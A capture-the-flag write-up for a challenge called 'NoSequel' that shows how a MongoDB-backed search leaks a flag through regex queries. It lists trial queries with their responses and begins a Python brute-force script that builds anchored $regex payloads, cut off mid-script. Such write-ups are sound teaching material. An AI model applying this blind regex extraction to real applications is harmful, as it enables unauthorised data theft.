 ----------

## NoSequel
> Solved by thewhiteh4t

In this challenge we had to extract the flag from a movie DB using MongoDB and a search function, as the name suggests first thought was NoSQL injections, but that was not needed as you will see.

An example search query was given : 


    title: Inception {"year": {"$gt": 1990}} title: {$regex: "The"}

Two collections were available in the dropdown and our flag is in `Flags` collection, because it's a CTF. We can figure out correct query string for Flags collection using the errors and eventually build a working query :  


    Query: a
    Error: Only regex queries are supported on the flag collection
    
    Query: {$regex: "The"}
    Error: Only regex on 'flag' field is supported
    
    Query: flag: {$regex: "The"}
    Result:  No results found matching your search criteria.
    
    Query: flag: {$regex: "flag"}
    Result: Pattern matched
    
    Query: flag: {$regex: "flag{"}
    Result: Pattern matched
    
    Query: flag: {$regex: "flag["}
    Result: No results found matching your search criteria.

So by abusing the regex filter we can extract the flag character by character, to automate the process I wrote a python script, the script will bruteforce each character and when it gets expected response, it will update the flag variable and continue with the next character and so on until it extracts all 32 characters of the flag


    #!/usr/bin/env python3
    
    import string
    import requests
    
    url = 'http://challenge.nahamcon.com:31735/search'
    flag = 'flag{'
    charset = []
    charset.extend(list(string.digits))
    charset.extend(list(string.ascii_lowercase))
    
    while len(flag) != 37:
            for char in charset:
                    payload = {
                            'query': 'flag: {$regex: "^' + flag + char + '"}',
                            'collection': 'flags'
                    }
    